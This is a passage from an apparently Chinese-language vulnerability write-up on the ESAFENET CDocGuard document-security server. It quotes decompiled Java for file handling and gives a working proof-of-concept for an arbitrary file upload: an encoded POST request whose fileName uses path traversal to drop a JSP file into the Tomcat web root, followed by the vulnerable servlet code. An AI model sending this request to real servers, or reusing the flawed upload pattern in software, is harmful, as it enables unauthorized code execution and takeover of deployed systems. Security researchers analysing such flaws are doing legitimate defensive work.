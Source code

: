 `this.fileTypeService.importFileType`部分代码如下

```java
String xmlName = file.getOriginalFilename();
File xmlfile = new File(this.getFilePath() + File.separator + xmlName);
if (!xmlfile.exists()) {
    xmlfile.mkdirs();
}

file.transferTo(xmlfile);
FileAll fileAll = (FileAll)this.fileTypeDao.jaxbXmlToBean(FileAll.class, xmlfile);
```

`this.getFilePath()`如下

```
private String getFilePath() {
    return System.getProperty("dlpHome") + File.separator + "conf" + File.separator + "xml";
}
```



### （4）UploadFileFromClientServiceForClient 任意文件上传漏洞

POC如下。然后访问`/34fb2afc44ca41aa.jsp`即可。

```
POST /CDGServer3/UploadFileFromClientServiceForClient?
a=CMAMNFHNNEBDPBHMEIHGKDDBFCKMEEEINIHMHLPFPLCFNLDLAHCONNAPDPHMILDIJJNILOBGOOHPNGEKMG
EBBLMCFCMMCAOOJEHLJOIHPGELPOGLPDEFACNAKFMHAALBDMAEBGGODDKHMJACJCBDDACPGFLHIEINLFPJHM
OBDHPMOKBIKHHELFDINOPELHFOFAFGFACGCPFFFGCCCIFHFKBEFFGNGN

test
```

参数值内容解码为

```
fileName=/../../../Program Files (x86)/ESAFENET/CDocGuard
Server/tomcat64/webapps/ROOT/34fb2afc44ca41aa.jsp
```



漏洞代码核心代码如下，获取参数，用`=`号分隔获取参数值，然后用`CDGUtil.decode`进行解码。解码后的内容用`&`分隔。对分隔后的内容判断开头的字符串，然后复制给UploadFileFromClientInfo。实际这块的赋值执行的是个insert的sql语句。并不影响后续的文件上传。所以只需要传入fileName就可以。

```java
protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    String value_code = req.getQueryString();
    value_code = value_code.substring(value_code.indexOf("=") + 1);
    value_decode = CDGUtil.decode(value_code);
    vds = value_decode.split("&");
    for(int var14 = 0; var14 < var13; ++var14) {
        String v = var12[var14];
        if (v.startsWith("fileId")) {
            fileId = v.substring(v.indexOf("=") + 1);
        }else if (v.startsWith("fileName")) {
            fileName = v.substring(v.indexOf("=") + 1);
        }...
    }
    UploadFileFromClientInfo info = new UploadFileFromClientInfo();
    info.setFileName(fileName);
    (new UploadFileFromClientModel()).addUploadFileFromClientInfo(info);
    InputStream is = req.getInputStream();
    byte[] buffer = new byte[1024];
    File file = new File(Constant.instance.UPLOAD_PATH + fileName);
    file.getParentFile().mkdirs();
    file.createNewFile();
```